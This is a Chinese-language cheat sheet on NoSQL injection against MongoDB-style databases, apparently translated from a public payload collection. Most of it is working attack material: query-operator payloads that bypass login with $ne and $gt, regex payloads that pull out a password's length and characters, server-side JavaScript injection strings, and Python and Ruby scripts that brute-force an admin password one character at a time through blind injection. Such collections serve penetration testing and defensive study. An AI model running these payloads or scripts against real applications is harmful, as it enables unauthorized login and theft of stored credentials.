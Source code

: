 # NoSQL 注入攻击

> NoSQL数据库比传统SQL数据库提供更宽松的一致性限制。通过减少关系约束和一致性检查，NoSQL数据库通常提供性能和扩展性优势。然而，即使这些数据库不使用传统的SQL语法，它们仍然可能容易受到注入攻击。

## 摘要

* [工具](#工具)
* [利用方法](#利用方法)
  * [绕过认证](#绕过认证)
  * [提取长度信息](#提取长度信息)
  * [提取数据信息](#提取数据信息)
* [盲NoSQL](#盲NoSQL)
  * [带JSON体的POST请求](#带JSON体的POST请求)
  * [带URL编码体的POST请求](#带URL编码体的POST请求)
  * [GET请求](#GET请求)
* [MongoDB有效载荷](#MongoDB有效载荷)
* [参考资料](#参考资料)

## 工具

* [NoSQLmap - 自动化的NoSQL数据库枚举和Web应用利用工具](https://github.com/codingo/NoSQLMap)
* [nosqlilab - 用于尝试NoSQL注入的实验室](https://github.com/digininja/nosqlilab)
* [Burp-NoSQLiScanner - Burp Suite中的插件](https://github.com/matrix/Burp-NoSQLiScanner)

## 利用方法

### 绕过认证

使用不等于($ne)或大于($gt)来绕过基本认证

```json
在DATA中
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto

在JSON中
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

### 提取长度信息

```json
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
```

### 提取数据信息

```json
在URL中
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*

在JSON中
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}
```

提取包含"in"的数据

```json
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```

### SSJI

```json
';return 'a'=='a' && ''=='
";return 'a'=='a' && ''=='
0;return true
```

## 盲注NoSQL

### 带有JSON正文的POST请求

python脚本:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'OK' in r.text or r.status_code == 302:
                print("找到更多字符 : %s" % (password+c))
                password += c
```

### 带有urlencode正文的POST请求

python脚本:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|','&','$']:
            payload='user=%s&pass[$regex]=^%s&remember=on' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if r.status_code == 302 and r.headers['Location'] == '/dashboard':
                print("找到更多字符 : %s" % (password+c))
                password += c
```

### GET请求

python脚本:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username='admin'
password=''
u='http://example.org/login'

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|', '#', '&', '$']:
      payload=f"?username={username}&password[$regex]=^{password + c}"
      r = requests.get(u + payload)
      if 'Yeah' in r.text:
        print(f"找到更多字符 : {password+c}")
        password += c
```

ruby脚本:

```ruby
require 'httpx'

username = 'admin'
password = ''
url = 'http://example.org/login'
# CHARSET = (?!..?~).to_a # 所有ASCII可打印字符
CHARSET = [*'0'..'9',*'a'..'z','-'] # 字母数字 + '-'
GET_EXCLUDE = ['*','+','.','?','|', '#', '&', '$']
session = HTTPX.plugin(:persistent)

while true
  CHARSET.each do |c|
    unless GET_EXCLUDE.include?(c)
      payload = "?username=#{username}&password[$regex]=^#{password + c}"
      res = session.get(url + payload)
      if res.body.to_s.match?('Yeah')
        puts "找到更多字符 : #{password + c}"
        password += c
      end
    end
  end
end
```

## MongoDB有效载荷

```bash
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a\
' } ], $comment:'成功的MongoDB注入'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1\
|| 1==1\
' && this.password.match(/.*/)//+%00\
' && this.passwordzz.match(/.*/)//+%00\
'%20%26%26%20this.password.match(/.*/)//+%00\
'%20%26%26%20this.passwordzz.match(/.*/)//+%00\
{$gt: ''}
[$ne]=1
';return 'a'=='a' && ''=='\
";return(true);var xyz='a\
0;return true
```

## 参考资料

* [经典与盲注NoSQL注入：永远不要信任用户输入 - Geluchat](https://www.dailysecurity.fr/nosql-injections-classique-blind/)
* [测试NoSQL注入 - OWASP/WSTG](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.6-Testing_for_NoSQL_Injection)
* [NoSQL注入词表 - cr0hn](https://github.com/cr0hn/nosqlinjection_wordlists)
* [MongoDB中的NoSQL注入 - 2016年7月17日 - Zanon](https://zanon.io/posts/nosql-injection-in-mongodb)
* [Burp-NoSQLiScanner](https://github.com/matrix/Burp-NoSQLiScanner/blob/main/src/burp/BurpExtender.java)
